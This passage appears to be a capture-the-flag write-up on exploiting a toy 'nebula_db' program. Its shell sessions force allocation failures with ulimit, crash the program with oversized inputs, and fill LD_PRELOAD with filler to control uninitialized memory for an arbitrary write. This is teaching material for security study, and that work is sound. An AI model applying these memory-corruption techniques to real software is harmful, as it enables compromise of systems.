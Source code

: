 <pre class="brush: bash; title: ; notranslate" title="">suto@ubuntu:~$  ulimit -v 1795
suto@ubuntu:~$ ./nebula_db
Nebula Database set up!
Enter your choice of action:
1 - Insert new order
2 - Edit order
3 - List orders
4 - Exit

Your choice: 1
Enter a Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter amount of Death Sticks: 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Your choice: 4
*** glibc detected *** ./n: double free or corruption (out): 0x08049118 ***
Aborted (core dumped)
suto@ubuntu:~$
</pre>

After getting here, i see another way can lead to successful exploitation. When asprintf fail, it will use ptr(3) at a result for main program use to keep track a record, somehow we can make this ptr point to some where we want and edit_entry will take care the rest to write a value we control to that address(since ptr is use without initialized)  
But i can&#8217;t find anyway to do that, so i thinking another solution.  
And i wonder if when the first alloc failt, so it will use the original value of at that address. After some check i&#8217;m stuck cause i can&#8217;t not do anything without this default value.  
I try some google in hopeless :p with keyword: &#8220;control uninitialized memory&#8221;  
At the first resutls is:  
[http://drosenbe.blogspot.com/2010/04/controlling-uninitialized-memory-with.html  
][1]  
Another trick to control memory at the begining of process execution. Let&#8217;s check:

<pre class="brush: bash; title: ; notranslate" title="">suto@ubuntu:~$ export LD_PRELOAD=`python -c 'print "A"*20000'`
suto@ubuntu:~$ ulimit -c unlimited
suto@ubuntu:~$  ulimit -v 1795
suto@ubuntu:~$ ./nebula_db
ERROR: ld.so: object '&lt;A&gt;*20000...
 from LD_PRELOAD cannot be preloaded: ignored.
Nebula Database set up!
Enter your choice of action:
1 - Insert new order
2 - Edit order
3 - List orders
4 - Exit

Your choice: 1
Enter a Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter amount of Death Sticks: 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Your choice: 2
Enter the ID of your order: 0
Segmentation fault (core dumped)
suto@ubuntu:~$
</pre>


 [1]: http://drosenbe.blogspot.com/2010/04/controlling-uninitialized-memory-with.html
 [2]: http://pastebin.com/yWUE40cM